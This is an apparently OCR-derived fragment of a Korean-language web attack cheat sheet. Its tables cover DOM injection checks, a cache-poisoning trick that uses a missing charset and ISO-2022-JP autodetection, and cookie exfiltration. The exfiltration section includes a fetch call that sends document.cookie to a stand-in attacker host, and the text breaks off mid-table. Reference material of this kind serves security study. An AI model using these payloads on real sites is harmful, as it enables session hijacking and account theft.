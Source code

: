 ### Validation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Observe DOM Injection</td>
      <td>-</td>
      <td>Developer tools에서 &lt;script> 삽입 여부를 확인한다.</td>
      <td>[C]</td>
    </tr>
  </tbody>
</table>

### Exploitation

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Web Cache Poisoning</td>
      <td>ISO-2022-JP 스니핑 가능한 비정상 404 페이지 캐시</td>
      <td>Server: Content-Type: text/html 헤더 있지만 charset 누락 → CDN이 캐시 → Browser: ISO-2022-JP 자동감지로 악성 스크립트 실행.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

### Exfiltration

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Leak Cookies via JS</td>
      <td><code>fetch('https://attacker/?c='+document.cookie)</code></td>
      <td>`document.cookie` 값을 외부 서버로 전송해 쿠키 탈취</td>
      <td>[D]</td>
    </tr>
    <tr>
      <td>Steal Data via XHR POST</td>